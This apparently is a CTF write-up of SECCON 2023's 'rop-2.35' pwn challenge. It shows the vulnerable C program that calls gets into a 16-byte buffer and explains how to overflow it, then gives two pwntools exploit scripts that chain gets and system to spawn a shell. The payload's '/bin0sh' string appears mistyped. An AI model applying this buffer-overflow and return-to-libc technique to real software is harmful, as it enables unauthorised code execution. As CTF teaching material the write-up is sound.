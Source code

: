 +++
title = 'SECCON 2023 - rop-2.35'
date = 2023-09-22T15:18:52-04:00
description = "In this post, I will be solving a easy pwn challenge from SECCON 2023."
draft = false
+++
This challenge comes from SECCON 2023, it's one of the easiest challenges available in the CTF.

We're given the source code, looking at it we have a good glance at the challenge.
```c
#include <stdio.h>
#include <stdlib.h>

void main() {
  char buf[0x10];
  system("echo Enter something:");
  gets(buf);
}
```

We read using the vulnerable `gets` function into a 16 bytes buffer.

So logically, by looking at the stack, to control the return address we would need `0x10` bytes to overflow our buffer and then `0x8` bytes to overflow RBP for a total of `0x18 bytes` before hitting the return address.

Now the question is where can we return, or what do we do.

Running the challenge in gdb, we can see that when main returns rdi contains a writable pointer to libc.

We therefore use this pointer to a gets call (we don't need to change rdi since it already contains the writable pointer), and we give the command we'd like to execute to this gets call.

Then we can directly use a call to system, since rdi already contains the pointer.

Here's the exploit i used to locally solved this challenge.
```python
io = start()
rop = ROP(exe)

p1 = [
        b"A" * 0x10, b"B" * 0x8,
        p64(exe.sym.gets),
        p64(exe.sym.system)
    ]

io.sendline(b"".join(p1))

io.sendline(b"/bin0sh")
```

And here's the exploit i ran on the remote challenge.
```python
io = remote("127.0.0.1", 9999)
rop = ROP(exe)

p1 = [
        b"A" * 0x10, b"B" * 0x8,
        p64(exe.sym.gets),
        p64(exe.sym.system)
    ]

io.sendline(b"".join(p1))

io.sendline(b"/bin0sh")
```

if there's one lesson to retain from this challenge, it's to always check out the state of the registers when crashing a program !!!

We were also being given a decent docker setup to run the challenge on, this is another thing i retained from this challenge.
